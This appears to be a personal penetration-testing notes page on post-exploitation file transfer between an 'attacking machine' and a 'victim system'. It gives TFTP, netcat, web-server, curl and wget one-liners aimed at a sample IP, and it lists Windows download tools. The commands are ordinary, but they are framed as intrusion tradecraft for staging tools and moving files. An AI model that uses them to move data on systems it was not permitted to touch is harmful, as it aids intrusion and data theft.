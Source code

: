 ```yaml
---
description: >-
  I have a problem  with remembering information that is very specific. So I
  have created a list of file transfer methods. I have not made any distinction
  of either windows or Linux.
---
```


# 6. File Transfer

Link : [https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts\#file-transfers](https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts#file-transfers)

Link : [https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/](https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/)

## Methods of file transfer

* Non-interactive Shells.
  * once it is executed, it does not require more input from the user in order to complete.
  * Once the command is executed, the shell automatically ends the connection.
* Interactive Shells.
  * remember how we used to interact SMTP server using command line.
    * we had to specify subject, email address, body, etc for mail.
    * Once we have sent the mail successfully we type "bye" to exit the SMTP connection.
  * Hence, to close the connection here we have to give a keyword which tells the server to terminate the connection.

![Interactive Shell](../.gitbook/assets/image%20%2812%29.png)

![Non-Interactive Shell](../.gitbook/assets/image%20%2811%29.png)

## List of different ways for transferring a file

1. File Transfer protocols
   1. FTP
   2. SFTP
   3. TFTP
   4. SCP
2. Using HTTP Protocol
3. Using file download method
   1. BITSAdmin \(windows, client only\)
   2. PowerShell \(windows, client only\)
   3. VBS HTTP
   4. Perl HTTP
   5. CERTUTIL
   6. base64
   7. curl \(client only\)
   8. wget \(client only\)
4. Tools
   1. HFS tool - file transfer across different platforms.
   2. Using Meterpreter
5. Using PHP file server

## Using FTP

### FTP server side

*  We first need to create a FTP server on our attacking machine.
* Then we need to copy the respective file to be sent to the victim system on the root folder of the ftp server.
* We then need to create a user using which we will transfer the files.

### FTP Client side

*  There are two method to use ftp client to download files, first is the default interactive shell. Another is we try to make this interactive shell non interactive by creating a text file with all the inputs written in it. The ftp client could then use the file directly instead of interactive inputs from user.

## Using TFTP

{% tabs %}
{% tab title="Linux TFTP Server" %}
```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
```
{% endtab %}

{% tab title="Windows TFTP Client" %}
```text
tftp -i 192.168.1.1 get file.txt #where 192.168.1.1 is the IP address of the TFTP server
```
{% endtab %}
{% endtabs %}

## Using Netcat

It is a simple netcat file transfer command

{% tabs %}
{% tab title="Sender side" %}
```text
nc 172.18.39.103 5000 < file.txt
```
{% endtab %}

{% tab title="Receiver side" %}
```text
nc -lvp 5000
```
{% endtab %}
{% endtabs %}

## Using file Download method

To transfer file using Download method, first we need to **set up a web server**.

{% tabs %}
{% tab title="python" %}
```text
python -m SimpleHTTPServer 8000
```
{% endtab %}

{% tab title="apache2" %}
```text
service apache2 start
cp file.txt /var/www/html/
```
{% endtab %}
{% endtabs %}

### Using curl

{% tabs %}
{% tab title="curl file transfer method" %}
```text
curl -O http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

### Using wget

{% tabs %}
{% tab title="wget file transfer method" %}
```text
wget http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

## Using PHP file server

{% tabs %}
{% tab title="Server side" %}
```text
php -S 0.0.0.0:80
```
{% endtab %}

{% tab title="Client side" %}
> You could use any file download method to download file.
{% endtab %}
{% endtabs %}

![](../.gitbook/assets/image-13.png)

![](../.gitbook/assets/image-39.png)


